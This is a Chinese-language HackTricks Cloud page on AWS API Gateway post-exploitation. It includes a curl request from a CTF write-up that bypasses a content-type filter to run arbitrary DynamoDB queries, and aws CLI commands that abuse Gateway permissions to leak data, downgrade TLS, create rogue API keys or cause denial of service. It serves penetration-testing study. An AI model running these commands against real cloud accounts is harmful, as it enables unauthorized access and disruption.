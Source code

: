 # AWS - API Gateway后渗透

{% hint style="success" %}
&#x20;学习并练习AWS黑客技术：<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;学习并练习GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## API Gateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的API

您可以在[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)创建一个端点，服务为`com.amazonaws.us-east-1.execute-api`，将端点暴露在您可以访问的网络中（可能通过EC2机器），并分配一个允许所有连接的安全组。\
然后，您可以从EC2机器访问端点，从而调用之前未公开的网关API。

### 绕过请求主体透传

此技术在[**此CTF解密**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)中发现。

如[**AWS文档**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)中所示，在`PassthroughBehavior`部分，默认情况下，值为**`WHEN_NO_MATCH`**，在检查请求的**Content-Type**标头时，将不对请求进行任何转换地将请求传递到后端。

因此，在CTF中，API Gateway具有一个集成模板，当使用`Content-Type: application/json`发送请求时，**阻止了响应中的标志被外泄**：
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

然而，使用**`Content-type: text/json`**发送请求将阻止该过滤器。&#x20;

最后，由于API网关仅允许`Get`和`Options`，因此可以通过在请求主体中发送带有查询的POST请求，并使用标头`X-HTTP-Method-Override: GET`来发送任意的dynamoDB查询，而不受任何限制：

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 使用计划 DoS

在**枚举**部分，您可以看到如何**获取密钥的使用计划**。如果您拥有该密钥，并且它**每月限制**为X次使用，您可以**只需使用它并导致DoS**。

**API密钥**只需包含在名为**`x-api-key`**的**HTTP标头**中。

### `apigateway:UpdateGatewayResponse`，`apigateway:CreateDeployment`

具有`apigateway:UpdateGatewayResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的网关响应，包括泄露敏感信息或执行恶意脚本的自定义标头或响应模板**。
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：泄露敏感信息，执行恶意脚本，或未经授权访问 API 资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

拥有 `apigateway:UpdateStage` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改现有的 API Gateway 阶段，将流量重定向到不同的阶段或更改缓存设置以获取对缓存数据的未经授权访问**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：未经授权访问缓存数据，干扰或拦截 API 流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

拥有 `apigateway:PutMethodResponse` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改现有 API Gateway REST API 方法的方法响应，包括自定义标头或响应模板，以泄露敏感信息或执行恶意脚本**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：泄露敏感信息，执行恶意脚本，或未经授权访问 API 资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

拥有 `apigateway:UpdateRestApi` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改 API Gateway REST API 设置以禁用日志记录或更改最低 TLS 版本，从而可能削弱 API 的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：削弱 API 的安全性，可能导致未经授权访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

拥有 `apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan` 和 `apigateway:CreateUsagePlanKey` 权限的攻击者可以**创建新的 API 密钥，将其与使用计划关联，然后使用这些密钥未经授权访问 API**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**：未经授权访问 API 资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
